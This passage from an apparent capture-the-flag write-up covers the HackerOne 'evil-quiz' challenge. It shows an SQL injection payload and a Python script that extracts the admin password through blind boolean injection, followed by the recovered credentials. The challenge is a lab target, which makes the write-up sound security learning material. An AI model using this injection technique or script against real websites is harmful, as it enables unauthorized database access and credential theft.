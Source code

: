 I tried this and got the 6 digit number showing that there is a username `admin`

```
grinch' or 1=( SELECT 1 FROM admin WHERE username like 'admi%' LIMIT 0,1) -- -
```

So that means the username is `admin` but password will be hard to guess so I'll decided to write the code:

```python
import re
import requests

URL = "https://hackyholidays.h1ctf.com/evil-quiz"
strings = " abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!#$&\'()*+,-./:;@_"
username = ""

while True:
    print("password: ", username)
    for i in strings:
        cookies = {
            "session": "1c0c8fea0d49a4e09317092fa1dbef21",
            "expires": "Tue, 22-Dec-2020 11:03:29 GMT",
            "Max-Age": "86400",
            "path": "/evil-quiz",
        }
        payload = {
                "name": "grinch' or 1=( SELECT 1 FROM admin WHERE password LIKE BINARY '{}%') -- -".format(
                (username+i)
            )
        }
        print("Trying: ", payload["name"])
        r = requests.post(URL, cookies=cookies, data=payload)

        start_url = URL + "/start"
        data = {"ques_1": "0", "ques_2": "0", "ques_3": "0"}
        r = requests.post(start_url, cookies=cookies, data=data)

        search = re.search(
            b'<div style="margin-top:20px">There(.*)</div>', r.content, re.IGNORECASE
        )
        number = len(search.group(1).split()[1])

        if number > 5:
            username = username + i
            break
        else:
            continue

```
{F1126870}

With this script I was able to find the password, `S3creT_p4ssw0rd-$`. Now using these credentials(`admin:S3creT_p4ssw0rd-$`) I logged in and found the flag.
